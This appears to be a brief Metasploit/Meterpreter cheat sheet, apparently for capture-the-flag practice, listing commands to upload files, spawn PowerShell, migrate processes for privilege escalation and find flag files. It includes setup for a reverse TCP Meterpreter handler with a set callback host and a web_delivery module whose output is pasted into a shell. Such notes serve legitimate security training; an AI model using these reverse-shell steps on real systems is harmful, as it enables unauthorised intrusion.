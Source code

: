 ### Upload file
```
upload <filepath>
```

### Launch powershell from meterpreter
```
load powershell
powershell_shell
Prompt changes to:
PS > 
```

### Options
- unset an option:
`unset <option>`

### Migrating to a process
Used to escalate priveliges
```
ps

migrate <pid>
```

## Reverse TCP handler
```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 10.14.23.1
set LPORT 5555 
run
```

## Get meterpreter from other shell
```
use exploit/multi/script/web_delivery
set payload windows/meterpreter/reverse_tcp
set LHOST
set LPORT
set target 2
run

Paste generated code into running shell
```

### Meterpreter find file
```
search -f root.txt
```
